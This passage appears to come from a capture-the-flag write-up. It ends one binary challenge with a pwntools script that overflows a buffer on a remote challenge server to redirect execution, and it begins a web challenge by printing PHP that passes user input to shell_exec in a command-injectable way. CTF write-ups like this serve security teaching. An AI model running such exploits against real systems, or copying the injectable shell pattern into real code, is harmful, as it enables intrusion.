     Our RIP: `0x6e6e626276 ('vbbnn')`, we now know the proper payload to change the RIP: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv`

    Now we got everything we need for the exploit, here is our script:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1237
    conn = remote('52.188.108.186',1237)

    conn.send('%s')
    conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' + p64(0x00000000004011f6))

    conn.interactive()
    ```
    </details>

    And our flag is `Securinets{d4ce75b4a536228bfc8371bfba2fdd45}`

* ### Web
  #### 1.  Broken Pingyy 
    For this challenge, we get the source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
    if(isset($_POST['ip'])){
      $cmd=$_POST['ip'];
      $clean=escapeshellarg($cmd);
      if($output = shell_exec("bash -c 'ping -c1 -w3 $clean" ))
        echo "<pre>$output</pre>";
      else
        echo "an error has occurred !";
    }
    ?>
    ```
    </details>

    And a link to this page:

    <p align="center">
      <img src="img/webpingy.png"><br/>
    </p>
